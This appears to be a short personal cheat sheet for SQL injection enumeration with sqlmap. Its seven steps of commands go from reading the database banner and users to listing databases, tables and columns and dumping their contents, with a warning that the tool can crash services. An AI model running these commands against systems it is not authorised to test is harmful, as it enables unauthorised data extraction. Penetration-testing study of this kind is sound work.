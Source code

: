 ```yaml
---
date: '2023-06-04T18:10:11+0900'
---
```


# Information Gathering with sqlmap

**Step 0:** Test injection by hand first.

This is good practice to horn someone own skill.

Plus, `sqlmap` is just a tool and could use a very inefficient exploitation strategy if going fully automatic without prior manual testing.
In addition, `sqlmap` is a dangerous tool that could crash the remote service if not used correctly.

**Step 1:** Extract the database banner

``` {.sh}
sqlmap -u <target> --banner <other_options>
```

**Step 2:** List users of the database

``` {.sh}
sqlmap -u <target> --users <other_options>
```

**Step 3:** Check if database user is administrator

``` {.sh}
sqlmap -u <target> --is-dba <other_options>
```

**Step 4:** List available databases

``` {.sh}
sqlmap -u <target> --dbs <other_options>
```

**Step 5:** List tables of selected database

``` {.sh}
sqlmap -u <target> -D <database> --tables <other_options>
```

**Step 6:** List columns of one or more tables

``` {.sh}
sqlmap -u <target> -D <database> -T <table,table> --columns <other_options>
```

**Step 7:** Dump columns

``` {.sh}
sqlmap -u <target> -D <database> -T <table> -C <column,column> --dump <other_options>
```
